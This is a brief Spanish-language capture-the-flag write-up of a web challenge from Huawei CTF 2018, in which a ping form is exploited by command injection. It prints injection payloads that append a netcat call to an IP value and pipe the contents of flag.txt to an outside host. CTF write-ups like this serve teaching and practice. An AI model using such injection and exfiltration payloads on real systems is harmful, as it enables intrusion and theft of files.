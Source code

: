 # Huawei CTF 2018 - Reto 1 - ABANDONED SILO
### Categoría: Web

Este reto nos muestra un formulario que nos permite hacer `ping` a la ip que le introduzcamos a través de un parámetro.
Como pista nos indican que la flag se encuentra en el archivo `flag.txt`.

![](img/web.png)

Probamos a inyectar un comando utilizando *netcat* para establecer una conexión reversa `127.0.0.1;nc reverse.sistec.es 8080`.

Verificamos que la conexión reversa se establece, la usamos para extraer el contenido del archivo `flag.txt`
```bash
127.0.0.1;cat flag.txt|nc reverse.sistec.es 8080
```

Recibimos en nuestro servidor la conexión con la flag.

![](img/flag.png)
